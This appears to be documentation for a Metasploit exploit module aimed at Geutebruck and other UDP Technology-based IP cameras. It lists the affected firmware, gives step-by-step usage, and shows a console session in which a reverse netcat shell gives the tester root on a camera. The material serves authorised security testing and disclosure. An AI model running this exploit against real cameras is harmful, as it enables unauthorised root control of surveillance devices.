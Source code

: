 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27,
firmware version 1.12.13.2 or firmware version 1.12.14.5:

* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:

  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module bypasses authentication and exploits multiple authenticated arbitrary command execution
vulnerabilities within various parameters of Geutebruck G-Cam EEC-2xxx and G-Code EBC-21xx, EFD-22xx,
ETHC-22xx, and EWPC-22xx devices running firmware versions <= 1.12.0.27 as well as firmware
versions 1.12.13.2 and 1.12.14.5. Successful exploitation results in remote code execution as the `root` user.

Users can find additional details of this vulnerability on the blogpost page
at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch `msfconsole`
  3. Do: `use exploit/linux/http/geutebruck_cmdinject_cve_2021_335xx`
  4. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `check` to be sure the target is vulnerable
  7. Do: `exploit`
  8. You should get a shell

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf6 > use exploit/linux/http/geutebruck_cmdinject_cve_2021_335xx
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf6 exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf6 exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > exploit
[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2021-02-23 13:37:28 +0200
pwd
/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-g3532e87a #1 PREEMPT Tue May 12 18:00:46 KST 2020 armv5tejl GNU/Linux
```